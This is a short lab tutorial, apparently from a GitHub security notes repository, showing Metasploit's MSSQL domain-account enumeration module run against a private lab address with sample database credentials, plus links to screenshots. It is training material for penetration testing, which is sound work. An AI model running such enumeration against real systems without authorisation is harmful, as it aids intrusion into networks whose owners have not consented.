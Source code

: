 # Active Directory - Enumeration - v03

By: CyberSec

## Offensive Security Testing and Enumeration with Metasploit

Continuing from: **Active Directory Vulnerable LAB Setup - MSSQL Setup**

If we know the database username and password, we can use metaploit and enumerate for domain users using the below commands.

```powershell
use auxiliary/admin/mssql/mssql_enum_domain_accounts
set rhost 192.168.0.35
set rport 1433
set username CSLPublicUser
set password MyPassword!
set fuzznum 10000
run
```

![Untitled](./ActiveDirectory/enumeration/msploit/enumsploit/Active%20Directory%20-%20Enumeration%20-%20v03%20635dc9ada4f2448e8d25bdd7b153c291/Untitled.png)

![Untitled](./ActiveDirectory/enumeration/msploit/enumsploit/Active%20Directory%20-%20Enumeration%20-%20v03%20635dc9ada4f2448e8d25bdd7b153c291/Untitled%201.png)